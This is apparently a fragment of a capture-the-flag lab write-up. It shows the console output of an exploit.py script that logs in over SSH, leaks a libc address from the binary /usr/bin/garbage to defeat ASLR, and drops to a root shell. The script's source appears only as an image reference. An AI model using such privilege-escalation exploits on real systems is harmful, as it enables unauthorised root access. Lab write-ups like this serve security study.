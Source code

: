 After running it:

```bash
python3 exploit.py 
[+] Connecting to 10.10.10.139 on port 22: Done
[*] margo@10.10.10.139:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Opening new channel: '/usr/bin/garbage': Done
[*] PUTS LEAK: 0x7fd6981d99c0
[*] Switching to interactive mode
Enter access password: 
access denied.
# $ whoami
root
```
